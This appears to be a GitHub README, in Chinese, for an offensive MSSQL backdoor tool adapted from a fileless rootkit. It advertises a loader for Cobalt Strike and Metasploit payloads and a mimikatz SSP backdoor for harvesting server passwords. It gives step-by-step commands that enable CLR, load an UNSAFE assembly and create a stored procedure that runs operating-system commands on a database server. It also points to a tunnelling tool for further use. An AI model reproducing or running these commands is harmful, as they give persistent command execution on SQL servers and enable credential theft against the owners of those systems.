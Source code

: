 ## MSSQL_BackDoor 

目的主要是摆脱MSSMS和 Navicat 调用执行 sp_cmdExec



在原有项目( [https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit](https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit) )做了更新

- 使用脚本查询可以获取返回值, 之前只能获取消息, 所以很依赖工具执行 sp_cmdExec
- 更新 mimikatz_powershell 至2020版本
- 添加自定义 loader, 用于加载 cobaltstrike 和 metasploit 的 payload
- 添加 mimikatz_ssp 后门, 用于记录服务器的密码
- sp_help, 一些提示指令

基于狼师傅的工具([http://wolvez.club/2019/09/19/mssql-command-tool/](http://wolvez.club/2019/09/19/mssql-command-tool/))稍微改了下程序

1. OpenCLR

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q "sp_configure 'clr enabled', 1;RECONFIGURE;ALTER DATABASE master SET TRUSTWORTHY ON;"
```



2. Load_ASSEMBLY

```
CREATE ASSEMBLY [WarSQLKit] AUTHORIZATION [dbo] FROM 0x4D5A9... WITH PERMISSION_SET = UNSAFE;
```



3. Create_StoredProcedure

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q 'CREATE PROCEDURE [dbo].[sp_cmdExec] @cmd NVARCHAR (MAX), @result NVARCHAR (MAX) OUTPUT AS EXTERNAL NAME [WarSQLKit].[StoredProcedures].[CmdExec];'
```

4. 🤣🤣🤣🤣🤣🤣

![Xnip2020-07-05_13-42-09](README.assets/Xnip2020-07-05_13-42-09.png)

![Xnip2020-07-05_13-44-39](README.assets/Xnip2020-07-05_13-44-39.png)

![image-20200712113702428](README.assets/image-20200712113702428.png)

瞎改了个 c# loader, 各位师傅将就用

![image-20200710224809903](README.assets/image-20200710224809903.png)

![Xnip2020-07-12_11-17-46](README.assets/Xnip2020-07-12_11-17-46.png)



部分利用思路:

例如: uknowsec师傅的-Frpc命令行版 [https://github.com/uknowsec/frpModify](https://github.com/uknowsec/frpModify)

![image-20200712122551483](README.assets/image-20200712122551483.png)

![image-20200712123252460](README.assets/image-20200712123252460.png)